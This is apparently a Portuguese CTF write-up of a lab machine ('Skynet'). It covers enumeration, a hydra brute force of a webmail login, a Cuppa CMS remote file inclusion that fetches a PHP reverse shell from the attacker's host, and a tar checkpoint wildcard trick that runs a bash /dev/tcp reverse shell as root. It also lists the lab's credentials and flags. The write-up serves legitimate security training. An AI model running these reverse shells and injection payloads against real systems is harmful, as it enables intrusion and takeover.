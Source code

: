 # SCANNING
Com o comando 
```Kali
sudo nmap -A -Pn -T5 -v 10.10.76.34
```
iniciamos o escaneamento mais abrangente, sem realizar o PING, nas 1000 portas comum, de forma agressiva
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250131173426.png)
## Informações Levantadas
**Portas Abertas**: 22, rodando um serviço SSH OpenSSH 7.2p2 Ubuntu 4ubuntu2.7
			80, rodando um serviço WEB Apache httpd 2.4.18
			110, rodando um serviço de email POP3 Dovecot pop3d
			139, rodando um serviço
			143, rodando um serviço de email Dovecot imapd
			445, , rodando um serviço Samba 4.3.11
**SO**: Ubuntu 4.4
# Enumeração
Ao acessar o serviço WEB encontramos uma página mas sem formas de exploração aparente
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%20250211172518.png)
Realizamos então a enumeração do serviço SMB e descobrimos algumas coisas interessantes
```Kali
enum4linux -a 10.10.255.32
```
![[Pasted image 20250211172131.png]]
Conseguimos conectar no compartilhamento anonymous e identificamos um arquivo de log, que parece ser uma wordlist
```Kali
smbclient //10.10.255.32/anonymous -N
```
![[Pasted image 20250211172249.png]]
![[Pasted image 20250211132254.png]]
Realizamos a enumeração do serviço WEB com o **gobuster** e identificamos um serviço de email

```Kali
gobuster dir -u http://10.10.255.32 -w /usr/share/wordlists/dirb/big.txt
```

![[Pasted image 20250211132115.png]]

![[Pasted image 20250211125256.png]]
# Exploração
Tentaremos descobrir a credencial do usuário milesdyson (nome de um compartilhamento) com a wordlist encontrada em log1 com o **hydra**, utilizando o **Burp Suite** para analisar a requisição e montar a sintaxe
```Kali
hydra -l milesdyson -P /home/rosembrick/log1.txt 10.10.255.32 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect" -v -T64 -I
```

![[Pasted image 20250211125533.png]]

![[Pasted image 20250211125612.png]]

Após a tentativa, descobrimos a credencial e assim obtivemos acesso ao serviço de email
![[Pasted image 20250211124948.png]]
login: milesdyson   password: cyborg007haloterminator
Numa das primeiras mensagens, há uma senha do serviço SMB possivelmente
![[Pasted image 20250211125214.png]]

Conseguimos acesso ao compartilhamento do usuário milesdyson e obtemos acesso a um arquivo importante, chamado importan.txt com suposto diretório
![[Pasted image 20250211125717.png]]

![[Pasted image 20250211125803.png]]
Ao acessarmos o diretório encontramos esta página e assim, tentamos mais uma vez enumerar com o **gobuster**
![[Pasted image 20250211125822.png]]
Com o comando abaixo, identificamos uma página de login
```Kali
gobuster dir -u http://10.10.255.32/45kra24zxs28v3yd -w /usr/share/wordlists/dirb/big.txt
```
![[Pasted image 20250211125057.png]]

![[Pasted image 20250211125924.png]]
Procuramos por exploits que explorem o serviço CUPPA CMS e identificamos um exploit para executar um RFI
![[Pasted image 20250211125443.png]]
Preparamos nosso exploit conforme descrição do script, alterando para o nosso host conforme se segue
![[Pasted image 20250211130055.png]]
Com um listener aberto no Kali e um servidor Python para que o alvo se conecte e faça o dowload do nosso reverse shell por PHP, acessamos a página abaixo
http://10.10.255.32/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.23.22.193:443/exploit_php.php
![[Pasted image 20250211125334.png]]
E assim, conseguimos acesso ao alvo pelo usuário www-data.
![[Pasted image 20250211124851.png]]
Capturamos a flag do user
![[Pasted image 20250211131725.png]]
**user:** 7ce5c2109a40f958099283600a9ae807
# Escalação de Privilégio
Realizamos uma enumeração interna com **linpeas.sh** baixado por um servidor python do nosso Kali
![[Pasted image 20250211132021.png]]
E identificamos esse script que realiza backup a cada 1 min com a ferramenta **tar**, passível de explorarmos para escalarmos privilégio
![[Pasted image 20250211124302.png]]

![[Pasted image 20250211124424.png]]
Verificamos que o binário **tar** executa um comando em cada ponto de verificação do backup
![[Pasted image 20250211124600.png]]
Para isso preparamos nosso script para escalarmos para root com o comando abaixo
![[Pasted image 20250211130324.png]]

```Kali
echo '#!/bin/bash > root_shell.sh
```
```Kali
echo 'bash -i >& /dev/tcp/10.23.22.193/4445 0>&1' >> root_shell.sh
```
Agora criaremos um **arquivo** chamado `--checkpoint-action=exec=bash root_shell.sh`, contendo o texto `/var/www/html` para que o `tar` executado dentro desse diretório, use o `--checkpoint`, e assim executar o nosso shell reverso `root_shell.sh`.
```Kali
echo "/var/www/html"  > "--checkpoint-action=exec=bash root_shell.sh"
```
![[Pasted image 20250211130505.png]]
Como o arquivo inicial `/home/milesdyson/backups/backup.sh`executa o binário **tar** a cada minuto, receberemos a shell de root em 1 minuto conforme abaixo.
![[Pasted image 20250211131601.png]]
Já com acesso ao root, capturamos a flag de root

![[Pasted image 20250211131643.png]]

**root:** 3f0372db24753accc7179a282cd6a949

